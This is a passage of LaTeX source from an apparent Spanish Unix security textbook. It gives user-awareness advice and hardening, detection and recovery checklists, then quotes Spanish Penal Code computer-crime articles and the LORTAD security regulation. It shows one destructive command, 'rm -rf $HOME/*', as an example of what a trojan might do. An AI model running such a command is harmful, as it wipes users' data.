cuya fuerza depende principalmente del eslab\'on m\'as d\'ebil: si falla \'este,
falla toda la cadena. Sin embargo, el problema de estas claves es que pueden
llegar a ser dif\'{\i}ciles de recordar, de forma que mucha gente opta por 
apuntarlas en el monitor de su estaci\'on o en la parte inferior de sus 
teclados; obviamente, esto es casi peor que el problema inicial, ya que como
administradores no podemos controlar estas situaciones la mayor parte de las
veces. Podemos (y ser\'{\i}a lo recomendable) recomendar a los usuarios que
utilicen combinaciones de may\'usculas, min\'usculas, n\'umeros y s\'{\i}mbolos
para generar sus claves, pero de forma que la combinaci\'on les pueda resultar
familiar: por ejemplo, combinar n\'umeros y letras de la matr\'{\i}cula del
coche con algunos s\'{\i}mbolos de separaci\'on; claves de este estilo
podr\'{\i}an ser {\tt V\#GF\&121}, {\tt @3289?DH} o {\tt JKnB0322}. Obviamente
estas claves son m\'as resistentes a un ataque que {\tt beatles}, pero tampoco
son seguras: las acabamos de escribir.
\item Confidencialidad de las claves\\
Hemos de concienciar a nuestros usuarios de que {\bf las contrase\~nas no se
comparten}: no es recomendable `prestar' su clave a otras personas, ajenas o
no al sistema, ni por supuesto utilizar la misma clave para diferentes 
m\'aquinas. Este \'ultimo punto muchas veces se olvida en sistemas de I+D, donde
el usuario se ve obligado a utilizar {\it passwords} para muchas actividades y
tiende invariablemente a usar la misma contrase\~na; incluso se utiliza la 
clave de acceso a un equipo Unix para autenticarse en juegos de red (MUDs o
IRC) o, lo que es igual de grave, para acceder a equipos Windows, de forma que
las vulnerabilidades de seguridad de estos sistemas se trasladan a Unix.
\item Conexiones cifradas\\
Hay que potenciar entre los usuarios el uso de programas como {\tt ssh/scp} o\\ 
{\tt ssl-telnet/ssl-ftp} para conectar al equipo. La parte cliente de estos
programas es muy simple de utilizar, y nos puede ahorrar muchos dolores de 
cabeza como administradores. Incluso existen clientes para Windows y MacOS, por
lo que nadie tiene excusa para no usar sistemas cifrados (se puede conseguir 
que su uso sea completamente {\bf transparente} al usuario); casi la mejor 
forma de que los usuarios los utilicen es dejando de ofrecer ciertos servicios
sin cifra, como {\tt telnet}, {\tt ftp}, {\tt rlogin} o {\tt rsh}.
\item Ejecuci\'on de programas\\
Nunca, bajo ning\'un concepto, instalar o ejecutar {\it software} que no
provenga de fuentes fiables; hay que prestar atenci\'on especial a programas
que nos env\'{\i}en por correo o por {\sc irc}, ya que se puede tratar de 
programas trampa que, desde borrar todos nuestros ficheros, a enviar por correo
una copia del archivo de contrase\~nas, pueden hacer cualquier cosa: imaginemos
que un `amigo' nos env\'{\i}a un juego a trav\'es de cualquier medio -- 
especialmente {\sc irc} -- y nosotros lo ejecutamos; incluso disponer del
c\'odigo fuente no es ninguna garant\'{\i}a (>qu\'e usuario medio lee un 
c\'odigo en C de, quiz\'as, miles de l\'{\i}neas?). Ese programa puede hacer
algo tan simple como {\tt rm -rf \$HOME/*} sin que nosotros nos demos cuenta,
con las consecuencias que esta orden implica.
\item Desconfianza\\
Hemos de desconfiar de cualquier correo electr\'onico, llamada telef\'onica o
mensaje de otro tipo que nos indique realizar una determinada actividad en el
sistema, especialmente cambiar la clave o ejecutar cierta orden; con 
frecuencia, un usuario se convierte en c\'omplice involuntario de un atacante:
imaginemos que recibimos una llamada de alguien que dice ser el administrador
del sistema y que nos recomienda cambiar nuestra clave por otra que \'el nos
facilita, con la excusa de comprobar el funcionamiento del nuevo {\it software} 
de correo. Si hacemos esto, esa persona ya tiene nuestra contrase\~na para 
acceder ilegalmente a la m\'aquina y hacer all\'{\i} lo que quiera; hemos de 
recordar siempre que el administrador no necesita nuestra ayuda para comprobar 
nada, y si necesita cambiar nuestra clave, lo puede hacer \'el mismo.
\item Un \'ultimo consejo\ldots\\
Cualquier actividad sospechosa que detectemos, aunque no nos implique 
directamente a nosotros, ha de ser notificada al administrador o responsable de
seguridad del equipo. Esta notificaci\'on, a ser posible, no se ha de realizar
por correo electr\'onico (un atacante puede eliminar ese {\it mail}), sino en
persona o por tel\'efono.\\
En muchas ocasiones, cuando un usuario nota un comportamiento extra\~no en el
sistema, no notifica nada pensando que el administrador ya se ha enterado del
suceso, o por miedo a quedar en rid\'{\i}culo (quiz\'as que lo que nosotros 
consideramos `extra\~no' resulta ser algo completamente normal); esta 
situaci\'on es err\'onea: si se trata de una falsa alarma, mucho mejor, 
pero\ldots >y si no lo es?
\end{itemize}
\section{Referencias r\'apidas}
\subsection{Prevenci\'on}
\begin{itemize}
\item Cerrar los servicios de {\tt inetd} que no sean estrictamente necesarios.
\item No lanzar demonios en el arranque de m\'aquina que no sean estrictamente
necesarios.
\item Minimizar el n\'umero de ficheros setuidados o setgidados en la m\'aquina.
\item Instalar {\it TCP Wrappers} y utilizar una pol\'{\i}tica restrictiva:
{\tt echo ALL:ALL >/etc/hosts.deny}. 
\item Utilizar {\it TCP Wrappers} para controlar el acceso a nuestro {\tt 
sendmail}, o utilizar un {\it wrapper} propio para este demonio.
\item Sustituir {\tt telnet}, {\tt ftp} o similares por {\tt ssh} y {\tt scp}.
\item No permitir ficheros {\tt \$HOME/.rhosts} en los directorios de usuarios,
y no establecer relaciones de confianza en {\tt /etc/hosts.equiv}.
\item Deshabilitar las cuentas del sistema que no corresponden a usuarios 
reales ({\tt uucp}, {\tt lp}\ldots).
\item Instalar un sistema {\it Shadow Password} para que los usuarios no 
puedan leer las claves cifradas. 
\item Deshabilitar las cuentas de usuarios que no conecten al sistema.
\item Utilizar versiones actualizadas del n\'ucleo del sistema operativo.
\item Evitar sobrecargas de servicio planificando {\tt pkill -HUP inetd} en
nuestro fichero {\it crontab}.
\end{itemize}
\subsection{Detecci\'on}
\begin{itemize}
\item Configurar {\it Tripwire} nada m\'as instalar el sistema y guardar sus
resultados en un medio fiable; cada cierto tiempo, ejecutar {\it Tripwire} para
comparar sus resultados con los iniciales.
\item Chequear peri\'odicamente los {\it logs} en busca de actividades 
sospechosas.
\item Utilizar \'ordenes como {\tt ps}, {\tt netstat} o {\tt last} para 
detectar cualquier evento fuera de lo normal en el sistema, pero no confiar 
ciegamente en los resultados que se nos muestran en pantalla: seamos paranoicos.
\item Comprobar peri\'odicamente la integridad de ficheros importantes de 
nuestro sistema, como {\tt /etc/passwd}, {\tt /etc/exports}, {\tt 
/etc/syslog.conf}, {\tt /etc/aliases} o ficheros de arranque.
\item Comprobar tambi\'en elementos como los permisos o el propietario de los
ficheros que se encuentran en los directorios de usuarios. 
\end{itemize}
\subsection{Recuperaci\'on}
\begin{itemize}
\item Nunca hay que ponerse nervioso: nuestra m\'aquina ni ha sido la primera
ni lamentablemente ser\'a la \'ultima en sufrir un ataque. No es el fin del
mundo.
\item Desconfiar de cualquier programa que se encuentre en el sistema; utilizar
programas del CD-ROM del sistema operativo, o versiones est\'aticas de los
mismos, para tracear las actividades del intruso.
\item Si es posible, reinstalar el sistema operativo completo y aplicarle los
parches de seguridad que el fabricante pone a nuestra disposici\'on\footnote{O 
que se distribuyen por Internet.}; permanecer 
atentos a los directorios de usuarios y a los programas que \'estos contienen.
\item Si pensamos que la integridad del sistema peligra mucho, desconectar 
directamente el cable de red: utilizar {\tt ifconfig down} o detener el sistema
con {\tt shutdown} puede incluso acarrearnos problemas.
\item Obviamente, antes de poner el sistema de nuevo a funcionar en red, estar
completamente seguro que los problemas de seguridad que el atacante aprovech\'o
est\'an solucionados.
\end{itemize}
\subsection{Usuarios}
\begin{itemize}
\item No elegir claves de menos de seis caracteres, y combinar may\'usculas,
min\'usculas, n\'umeros, signos de puntuaci\'on\ldots cualquier cosa que nos 
permita el teclado.
\item No apuntar nuestras claves ni compartirlas con otras personas.
\item No utilizar nuestra contrase\~na de acceso en otros sistemas, 
especialmente juegos en red o equipos Windows.
\item Sustituir {\tt telnet} y {\tt ftp} por {\tt ssh} y {\tt scp} o similares.
\item Nunca ejecutar programas que nos envien por correo o que consigamos a 
partir de fuentes poco fiables (como un `amigo' que nos pasa un programa por
{\sc irc}). Tampoco ejecutar \'ordenes cuyo funcionamiento desconocemos, 
especialmente si alguien desconocido nos indica teclear `algo' para ver el
resultado.
\item Desconfiar de llamadas telef\'onicas o correo electr\'onico que nos incita
a realizar cualquier actividad dentro del sistema, especialmente cambiar nuestra
clave; si estas situaciones se producen, indicarlo inmediatamente al responsable
de seguridad del equipo, mediante tel\'efono o en persona.
\item Ante cualquier actividad sospechosa que se detecte es recomendable 
ponerse en contacto con el responsable de seguridad o el administrador, a ser 
posible por tel\'efono o en persona.
\end{itemize}
%\end{document}

\cleardoublepage
\chapter{Normativa}
\section{Nuevo C\'odigo Penal}\footnotetext{Delitos relacionados con nuevas
tecnolog\'{\i}as.}
\begin{center}
{\LARGE T\'ITULO X} 
\end{center}
{\large Delitos contra la intimidad, el derecho a la propia imagen y la 
inviolabilidad del domicilio} 
\begin{center} 
{\Large CAP\'ITULO I}\\ 
Del descubrimiento y revelaci\'on de secretos 
\end{center} 
{\large {\bf Art\'{\i}culo 197}} 

{\bf 1.} El que para descubrir los secretos o vulnerar la intimidad de otro, 
sin su consentimiento, se apodere de sus papeles, cartas, mensajes de correo 
electr\'onico o cualesquiera otros documentos o efectos personales o intercepte 
sus telecomunicaciones o utilice artificios t\'ecnicos de escucha, 
transmisi\'on, grabaci\'on o reproducci\'on del sonido o de la imagen, o de 
cualquier otra se\~nal de comunicaci\'on, ser\'a castigado con las penas de 
prision de uno a cuatro a\~nos y multa de doce a veinticuatro meses. 
 
{\bf 2.} Las mismas penas se impondr\'an al que, sin estar autorizado, se 
apodere, utilice o modifique, en perjuicio de tercero, datos reservados de 
car\'acter personal o familiar de otro que se hallen registrados en ficheros o 
soportes inform\'aticos, electr\'onicos o telem\'aticos, o en cualquier otro 
tipo de archivo o registro p\'ublico o privado. Iguales penas se impondr\'an a 
quien, sin estar autorizado, acceda por cualquier medio a los mismos y a quien
los altere o utilice en perjuicio del titular de los datos o de un tercero.  
 
{\bf 3.} Se impondr\'a la pena de prisi\'on de dos a cinco a\~nos si se 
difunden, revelan o ceden a terceros los datos o hechos descubiertos o las 
im\'agenes captadas a que se refieren los n\'umeros anteriores. Ser\'a 
castigado con las penas de prisi\'on de uno a tres a\~nos y multa de doce a 
veinticuatro meses, el que, con conocimiento de su origen il\'{\i}cito y sin 
haber tomado parte en su descubrimiento, realizare la conducta descrita en el 
p\'arrafo anterior. 
 
{\bf 4.} Si los hechos descritos en los apartados 1 y 2 de este art\'{\i}culo 
se realizan por las personas encargadas o responsables de los ficheros, 
soportes inform\'aticos, electr\'onicos o telem\'aticos, archivos o registros, 
se impondr\'a la pena de prisi\'on de tres a cinco a\~nos, y si se difunden, 
ceden o revelan los datos reservados, se impondr\'a la pena en su mitad 
superior. 
 
{\bf 5.} Igualmente, cuando los hechos descritos en los apartados anteriores 
afecten a datos de car\'acter personal que revelen la ideolog\'{\i}a, 
religi\'on, creencias, salud, origen racial o vida sexual, o la v\'{\i}ctima 
fuere un menor de edad o un incapaz, se impondr\'an las penas previstas en su 
mitad superior. 
 
{\bf 6.} Si los hechos se realizan con fines lucrativos, se impondr\'an las 
penas respectivamente previstas en los apartados 1 al 4 de este art\'{\i}culo 
en su mitad superior. Si adem\'as afectan a datos de los mencionados en el 
apartado 5, la pena a imponer ser\'a la de prisi\'on de cuatro a siete a\~nos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 198}} 
 
La autoridad o funcionario p\'ublico que, fuera de los casos permitidos por 
la Ley, sin mediar causa legal por delito, y prevali\'endose de su cargo, 
realizare cualquiera de las conductas descritas en el art\'{\i}culo anterior, 
ser\'a castigado con las penas respectivamente previstas en el mismo, en su 
mitad superior y, adem\'as, con la de inhabilitaci\'on absoluta por tiempo de 
seis a doce a\~nos. 
\vspace{0.3cm}\\ 
{\large {\bf Art\'{\i}culo 199}}
 
{\bf 1.} El que revelare secretos ajenos, de los que tenga conocimiento por 
raz\'on de su oficio o sus relaciones laborales, ser\'a castigado con la pena 
de prisi\'on de uno a tres a\~nos y multa de seis a doce meses. 
 
{\bf 2.} El profesional que, con incumplimiento de su obligaci\'on de sigilo o 
reserva, divulgue los secretos de otra persona, ser\'a castigado con la pena de 
prisi\'on de uno a cuatro a\~nos, multa de doce a veinticuatro meses e 
inhabilitaci\'on especial para dicha profesi\'on por tiempo de dos a seis 
a\~nos. 
\vspace{0.3cm}\\ 
{\large {\bf Art\'{\i}culo 200}}
 
Lo dispuesto en este cap\'{\i}tulo ser\'a aplicable al que descubriere, 
revelare o cediere datos reservados de personas jur\'{\i}dicas, sin el 
consentimiento de sus representantes, salvo lo dispuesto en otros preceptos de 
este C\'odigo. 
\vspace{0.3cm}\\ 
{\large {\bf Art\'{\i}culo 201}}
 
{\bf 1.} Para proceder por los delitos previstos en este cap\'{\i}tulo ser\'a 
necesaria denuncia de la persona agraviada o de su representante legal. Cuando 
aquella sea menor de edad, incapaz o una persona desvalida, tambien podr\'a 
denunciar el Ministerio Fiscal. 
 
{\bf 2.} No ser\'a precisa la denuncia exigida en el apartado anterior para 
proceder por los hechos descritos en el art\'{\i}culo 198 de este C\'odigo, ni 
cuando la comisi\'on del delito afecte a los intereses generales o a una 
pluralidad de personas. 
 
{\bf 3.} El perd\'on del ofendido o de su representante legal, en su caso, 
extingue la acci\'on penal o la pena impuesta, sin perjuicio de lo dispuesto en 
el segundo p\'arrafo del numero 4$^{o}$ del art\'{\i}culo 130. 
\vspace{0.3cm}\\ 
{\large {\bf Art\'{\i}culo 248}}

{\bf 1.} Cometen estafa los que, con \'animo de lucro, utilizaren enga\~no 
bastante para producir error en otro, induci\'endolo a realizar un acto de 
disposici\'on en perjuicio propio o ajeno. 
 
{\bf 2.} Tambi\'en se consideran reos de estafa los que, con \'animo de lucro, 
y vali\'endose de alguna manipulaci\'on inform\'atica o artificio semejante 
consigan la transferencia no consentida de cualquier activo patrimonial en 
perjuicio de tercero. 
\vspace{0.3cm}\\ 
{\large {\bf Art\'{\i}culo 263}}
 
El que causare da\~nos en propiedad ajena no comprendidos en otros T\'{\i}tulos 
de este C\'odigo, ser\'a castigado con la pena de multa de seis a veinticuatro 
meses, atendidas la condici\'on econ\'omica de la v\'{\i}ctima y la 
cuant\'{\i}a del da\~no, si \'este excediera de cincuenta mil pesetas. 
\vspace{0.3cm}\\ 
{\large {\bf Art\'{\i}culo 264}}
 
{\bf 1.} Ser\'a castigado con la pena de prisi\'on de uno a tres a\~nos y multa 
de doce a veinticuatro meses el que causare da\~nos expresados en el 
art\'{\i}culo anterior, si concurriera alguno de los supuestos siguientes: 
\begin{enumerate} 
\item Que se realicen para impedir el libre ejercicio de la autoridad 
o en venganza de sus determinaciones, bien se cometiere el delito contra 
funcionarios publicos, bien contra particulares que, como testigos o de 
cualquier otra manera, hayan contribuido o pueden contribuir a la ejecucion 
o aplicacion de las Leyes o disposiciones generales. 
\item Que se cause por cualquier medio infecci\'on o contagio de ganado. 
\item Que se empleen sustancias venenosas o corrosivas. 
\item Que afecten a bienes de dominio o uso p\'ublico o comunal. 
\item Que arruinen al perjudicado o se le coloque en grave situaci\'on 
econ\'omica. 
\end{enumerate} 

{\bf 2.} La misma pena se impondr\'a al que por cualquier medio destruya, 
altere, inutilice o de cualquier otro modo da\~ne los datos, programas o 
documentos electr\'onicos ajenos contenidos en redes, soportes o sistemas 
inform\'aticos. 
 
\begin{center} 
{\Large CAP\'ITULO XI}\\
De los delitos relativos a la propiedad intelectual e industrial, al mercado y 
a los consumidores 
\end{center} 
 
\begin{center} 
	Secci\'on 1$^{a}$.- DE LOS DELITOS RELATIVOS A LA PROPIEDAD 
INTELECTUAL. 
\end{center} 
{\large {\bf Art\'{\i}culo 270}}
 
Ser\'a castigado con la pena de prisi\'on de seis meses a dos a\~nos o de 
multa de seis a veinticuatro meses quien, con \'animo de lucro y en perjuicio 
de tercero, reproduzca, plagie, distribuya o comunique p\'ublicamente, en todo 
o en parte, una obra literaria, art\'{\i}stica o cient\'{\i}fica, o su 
transformaci\'on, interpretaci\'on o ejecuci\'on art\'{\i}stica fijada en 
cualquier tipo de soporte o comunicada a trav\'es de cualquier medio, sin la 
autorizaci\'on de los titulares de los correspondientes derechos de propiedad 
intelectual o de sus cesionarios.\\ 

La misma pena se impondr\'a a quien intencionadamente importe, exporte 
o almacene ejemplares de dichas obras o producciones o ejecuciones sin la 
referida autorizaci\'on.\\

Ser\'a castigada tambi\'en con la misma pena la fabricaci\'on, puesta en 
circulaci\'on y tenencia de cualquier medio espec\'{\i}ficamente destinada a 
facilitar la supresi\'on no autorizada o la neutralizaci\'on de cualquier 
dispositivo t\'ecnico que se haya utilizado para proteger programas de 
ordenador. 
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 278}} 
 
{\bf 1.} El que, para descubrir un secreto de empresa se apoderare por 
cualquier medio de datos, documentos escritos o electr\'onicos, soportes 
inform\'aticos u otros objetos que se refieran al mismo, o empleare alguno de 
los medios o instrumentos se\~nalados en el apartado 1 del art\'{\i}culo 197, 
ser\'a castigado con la pena de prisi\'on de dos a cuatro a\~nos y multa de 
doce a veinticuatro meses. 
 
{\bf 2.} Se impondr\'a la pena de prisi\'on de tres a cinco a\~nos y multa de 
doce a veinticuatro meses si se difundieren, revelaren o cedieren a terceros 
los secretos descubiertos. 
 
{\bf 3.} Lo dispuesto en el presente art\'{\i}culo se entender\'a sin perjuicio 
de las penas que pudieran corresponder por el apoderamiento o destrucci\'on de 
los soportes inform\'aticos. 
 
\begin{center}
{\Large CAP\'ITULO III}\\
Disposici\'on general 
\end{center}
{\large {\bf Art\'{\i}culo 400}}
 
La fabricaci\'on o tenencia de \'utiles, materiales, instrumentos, sustancias, 
m\'aquinas, programas de ordenador o aparatos, espec\'{\i}ficamente 
destinados a la comisi\'on de los delitos descritos en los cap\'{\i}tulos 
anteriores, se castigar\'an con la pena se\~nalada en cada paso para los 
autores. 
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 536}}
 
La autoridad, funcionario p\'ublico o agente de estos que, mediando 
causa por delito, interceptare las telecomunicaciones o utilizare artificios 
t\'ecnicos de escuchas, transmisi\'on, grabaci\'on o reproducci\'on del sonido, 
de la imagen o de cualquier otra se\~nal de comunicaci\'on, con violaci\'on de 
las garant\'{\i}as constitucionales o legales, incurrir\'a en la pena de 
inhabilitaci\'on especial para empleo o cargo p\'ublico de dos a seis a\~nos.\\
 
Si divulgare o revelare la informaci\'on obtenida, se impondr\'an las 
penas de inhabilitaci\'on especial, en su mitad superior y, adem\'as la de 
multa de seis a dieciocho meses.
\cleardoublepage
\section{Reglamento de Seguridad de la LORTAD}\footnotetext{Reglamento de 
Medidas 
de Seguridad de los ficheros automatizados que contengan datos de car\'acter 
personal, aprobado por el Real Decreto 994/1999, de 11 de junio.}
\begin{center}
{\LARGE CAP\'ITULO I}\\ {\large Disposiciones Generales}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 1.} \'Ambito de aplicaci\'on y fines.}

El presente Reglamento tiene por objeto establecer las medidas de \'{\i}ndole 
t\'ecnica y organizativas necesarias para garantizar la seguridad que deben 
reunir los ficheros automatizados, los centros de tratamiento, locales, equipos,
sistemas, programas y las personas que intervengan en el tratamiento 
automatizado de los datos de car\'acter personal sujetos al r\'egimen de la 
Ley Org\'anica 5/1992, de 29 de octubre, de Regulaci\'on del Tratamiento 
Automatizado de los Datos de car\'acter personal.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 2.} Definiciones.}

A efectos de este Reglamento, se entender\'a por:
\begin{itemize}
\item[1.-]{\bf Sistema de informaci\'on:} Conjunto de ficheros automatizados, 
programas, soportes y equipos empleados para el almacenamiento y tratamiento de 
datos de car\'acter personal.
\item[2.-]{\bf Usuario:} Sujeto o proceso autorizado para acceder a datos o 
recursos.
\item[3.-]{\bf Recurso:} Cualquier parte componente de un sistema de 
informaci\'on.
\item[4.-]{\bf Accesos autorizados:} Autorizaciones concedidas a un usuario 
para la utilizaci\'on de los diversos recursos.
\item[5.-]{\bf Identificaci\'on:} Procedimiento de reconocimiento de la 
identidad de un usuario.
\item[6.-]{\bf Autenticaci\'on:} Procedimiento de comprobaci\'on de la 
identidad de un usuario.
\item[7.-]{\bf Control de acceso:} Mecanismo que en funci\'on a la 
identificaci\'on ya autenticada permite acceder a datos o recursos.
\item[8.-]{\bf Contrase\~na:} Informaci\'on confidencial, frecuentemente 
constituida por una cadena de caracteres, que puede ser usada en la 
autenticaci\'on de un usuario.
\item[9.-]{\bf Incidencia:} Cualquier anomal\'{\i}a que afecte o pudiera 
afectar a la seguridad de los datos.
\item[10.-]{\bf Soporte:} Objeto f\'{\i}sico susceptible de ser tratado en un 
sistema de informaci\'on sobre el cual se pueden grabar o recuperar datos.
\item[11.-]{\bf Responsable de seguridad:} Persona o personas de la 
organizaci\'on a las que el responsable del fichero ha asignado formalmente la 
funci\'on de coordinar y controlar las medidas de seguridad aplicables.
\item[12.-]{\bf Copia de respaldo:} Copia de los datos de un fichero 
automatizado en un soporte que posibilite su recuperaci\'on.
\end{itemize}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 3.} Niveles de seguridad.}

{\bf 1.} Las medidas de seguridad exigibles se clasifican en tres niveles: 
b\'asico, medio y alto.\\

{\bf 2.} Dichos niveles se establecen atendiendo a la naturaleza de la 
informaci\'on tratada, en relaci\'on con la mayor o menor necesidad de 
garantizar la confidencialidad y la integridad de la informaci\'on.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 4.} Aplicaci\'on de los niveles de seguridad.}

{\bf 1.} Todos los ficheros que contengan datos de car\'acter personal 
deber\'an adoptar las medidas de seguridad calificadas como de nivel 
b\'asico.\\

{\bf 2.} Los ficheros que contengan datos relativos a la comisi\'on de 
infracciones administrativas o penales, Hacienda P\'ublica, servicios 
financieros y aquellos ficheros cuyo funcionamiento se rija por el art\'{\i}culo
28 de la Ley Org\'anica 5/1992, deber\'an reunir, adem\'as de las medidas de 
nivel b\'asico, las calificadas como de nivel medio.\\

{\bf 3.} Los ficheros que contengan datos de ideolog\'{\i}a, religi\'on, 
creencias, origen racial, salud o vida sexual, as\'{\i} como los que contengan 
datos recabados para fines policiales sin consentimiento de las personas 
afectadas deber\'an reunir, adem\'as de las medidas de nivel b\'asico y medio, 
las calificadas como de nivel alto.\\

{\bf 4.} Cuando los ficheros contengan un conjunto de datos de car\'acter 
personal suficientes que permitan obtener una evaluaci\'on de la personalidad 
del individuo deber\'an garantizar las medidas de nivel medio establecidas en 
los art\'{\i}culos 17, 18, 19 y 20.\\

{\bf 5.} Cada uno de los niveles descritos anteriormente tienen la condici\'on 
de m\'{\i}nimos exigibles, sin perjuicio de las disposiciones legales o 
reglamentarias espec\'{\i}ficas vigentes.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 5.} Acceso a datos a trav\'es de redes de 
comunicaciones.}

Las medidas de seguridad exigibles a los accesos a datos de car\'acter personal 
a trav\'es de redes de comunicaciones deber\'an garantizar un nivel de 
seguridad equivalente al correspondiente a los accesos en modo local.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 6.} R\'egimen de trabajo fuera de los locales de 
ubicaci\'on del fichero.}

La ejecuci\'on de tratamiento de datos de car\'acter personal fuera de los 
locales de la ubicaci\'on del fichero deber\'a ser autorizada expresamente por 
el responsable del fichero y, en todo caso, deber\'a garantizarse el nivel de 
seguridad correspondiente al tipo de fichero tratado.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 7.} Ficheros temporales.}

{\bf 1.} Los ficheros temporales deber\'an cumplir el nivel de seguridad que 
les corresponda con arreglo a los criterios establecidos en el presente 
Reglamento.\\

{\bf 2.} Todo fichero temporal ser\'a borrado una vez que haya dejado de ser 
necesario para los fines que motivaron su creaci\'on.
\begin{center}
{\LARGE CAP\'ITULO II}\\ {\large Medidas de seguridad de nivel b\'asico}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 8.} Documento de seguridad.}

{\bf 1.} El responsable del fichero elaborar\'a e implantar\'a la normativa de 
seguridad, mediante un documento de obligado cumplimiento para el personal con 
acceso a los datos automatizados de car\'acter personal y a los sistemas de 
informaci\'on.\\

{\bf 2.} El documento deber\'a contener, como m\'{\i}nimo, los siguientes 
aspectos:
\begin{itemize}
\item[(a)] \'Ambito de aplicaci\'on del documento con especificaci\'on 
detallada de los recursos protegidos.
\item[(b)] Medidas, normas, procedimientos, reglas y est\'andares encaminados a 
garantizar el nivel de seguridad exigido en este Reglamento.
\item[(c)] Funciones y obligaciones del personal.
\item[(d)] Estructura de los ficheros con datos de car\'acter personal y 
descripci\'on de los sistemas de informaci\'on que los tratan.
\item[(e)] Procedimiento de notificaci\'on, gesti\'on y respuesta ante las 
incidencias.
\item[(f)] Los procedimientos de realizaci\'on de copias de respaldo y de 
recuperaci\'on de los datos.
\end{itemize}

{\bf 3.} El documento deber\'a mantenerse en todo momento actualizado y 
deber\'a ser revisado siempre que se produzcan cambios en el sistema de 
informaci\'on o en la organizaci\'on.\\

{\bf 4} El contenido del documento deber\'a adecuarse, en todo momento, a las 
disposiciones vigentes en materia de seguridad de los datos de car\'acter 
personal.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 9.} Funciones y obligaciones del personal.}

{\bf 1.} Las funciones y obligaciones de cada una de las personas con acceso a 
los datos de car\'acter personal y a los sistemas de informaci\'on estar\'an 
claramente definidas y documentadas, de acuerdo con lo previsto en el 
art\'{\i}culo 8.2.(c).\\

{\bf 2.} El responsable del fichero adoptar\'a las medidas necesarias para que 
el personal conozca las normas de seguridad que afecten al desarrollo de sus 
funciones as\'{\i} como las consecuencias en que pudiera incurrir en caso de 
incumplimiento.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 10.} Registro de incidencias.}

El procedimiento de notificaci\'on y gesti\'on de incidencias contendr\'a 
necesariamente un registro en el que se haga constar el tipo de incidencia, el 
momento en que se ha producido, la persona que realiza la notificaci\'on, a 
qui\'en se le comunica y los efectos que se hubieran derivado de la misma.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 11.} Identificaci\'on y autenticaci\'on.}

{\bf 1.} El responsable del fichero se encargar\'a de que exista una relaci\'on 
actualizada de usuarios que tengan acceso al sistema de informaci\'on y de 
establecer procedimientos de identificaci\'on y autenticaci\'on para dicho 
acceso.\\

{\bf 2.} Cuando el mecanismo de autenticaci\'on se base en la existencia de 
contrase\~nas existir\'a un procedimiento de asignaci\'on, distribuci\'on y 
almacenamiento que garantice su confidencialidad e integridad.\\

{\bf 3.} Las contrase\~nas se cambiar\'an con la periodicidad que se determine 
en el documento de seguridad y mientras est\'en vigentes se almacenar\'an de 
forma ininteligible.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 12.} Control de acceso.}

{\bf 1.} Los usuarios tendr\'an acceso autorizado \'unicamente a aquellos datos 
y recursos que precisen para el desarrollo de sus funciones.\\

{\bf 2.} El responsable del fichero establecer\'a mecanismos para evitar que un 
usuario pueda acceder a datos o recursos con derechos distintos de los 
autorizados.\\

{\bf 3.} La relaci\'on de usuarios a la que se refiere el art\'{\i}culo 11.1 de 
este Reglamento contendr\'a los derechos de acceso autorizados para cada uno de 
ellos.\\

{\bf 4.} Exclusivamente el personal autorizado para ello en el documento de 
seguridad podr\'a conceder, alterar o anular el acceso autorizado sobre los 
datos y recursos, conforme a los criterios establecidos por el responsable del 
fichero.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 13.} Gesti\'on de soportes.}

{\bf 1.} Los soportes inform\'aticos que contengan datos de car\'acter personal 
deber\'an permitir identificar el tipo de informaci\'on que contienen, ser 
inventariados y almacenarse en un lugar con acceso restringido al personal 
autorizado para ello en el documento de seguridad.\\

{\bf 2.} La salida de soportes inform\'aticos que contengan datos de car\'acter 
personal, fuera de los locales en que est\'e ubicado el fichero, \'unicamente 
podr\'a ser autorizada por el responsable del fichero.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 14.} Copias de respaldo y recuperaci\'on}

{\bf 1.} El responsable de fichero se encargar\'a de verificar la definici\'on 
y correcta aplicaci\'on de los procedimientos de realizaci\'on de copias de 
respaldo y de recuperaci\'on de los datos.\\

{\bf 2.} Los procedimientos establecidos para la realizaci\'on de copias de 
respaldo y para la recuperaci\'on de los datos deber\'a garantizar su 
reconstrucci\'on en el estado en que se encontraban al tiempo de producirse la 
p\'erdida o destrucci\'on.

{\bf 3.} Deber\'an realizarse copias de respaldo, al menos semanalmente, salvo 
que en dicho per\'{\i}odo no se hubiera producido ninguna actualizaci\'on de 
los datos.
\begin{center}
{\LARGE CAP\'ITULO III}\\ {\large Medidas de seguridad de nivel medio}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 15.} Documento de seguridad.}

El documento de seguridad deber\'a contener, adem\'as de lo dispuesto en el 
articulo 8 del presente Reglamento, la identificaci\'on del responsable o 
responsables de seguridad, los controles peri\'odicos que se deban realizar 
para verificar el cumplimiento de lo dispuesto en el propio documento y las 
medidas que sea necesario adoptar cuando un soporte vaya a ser desechado o 
reutilizado.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 16.} Responsable de seguridad.}

El responsable del fichero designar\'a uno o varios responsables de seguridad 
encargados de coordinar y controlar las medidas definidas en el documento de 
seguridad. En ning\'un caso esta designaci\'on supone una delegaci\'on de la 
responsabilidad que corresponde al responsable del fichero de acuerdo con este 
Reglamento.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 17.} Auditor\'{\i}a.}

{\bf 1.} Los sistemas de informaci\'on e instalaciones de tratamiento de datos 
se someter\'an a una auditor\'{\i}a interna o externa, que verifique el 
cumplimiento del presente Reglamento, de los procedimientos e instrucciones 
vigentes en materia de seguridad de datos, al menos, cada dos a\~nos.\\

